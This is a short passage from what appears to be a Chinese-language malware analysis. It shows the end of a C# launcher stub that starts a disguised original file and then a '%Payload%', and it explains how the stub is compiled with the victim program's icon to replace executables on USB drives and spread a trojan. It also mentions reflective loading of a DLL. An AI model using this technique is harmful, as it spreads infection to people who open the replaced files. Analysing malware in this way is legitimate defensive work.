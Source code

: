```
            System.Diagnostics.Process.Start(@"%File%");
        }
        catch { }
        try
        {
            System.Diagnostics.Process.Start(@"%Payload%");
        }
        catch { }
    }
}
```

将对应的遍历进行替换，替换成对应的图标，编译到指定的路径，这段代码就是启动木马，这样就替换了usb中的exe，实现感染的效果



## Seed Torrent

![image-20240209141120428](readme/image-20240209141120428.png)

反射加载的是Miscellaneous.dll，我们直接看怎么实现的



![image-20240209141257868](readme/image-20240209141257868.png)
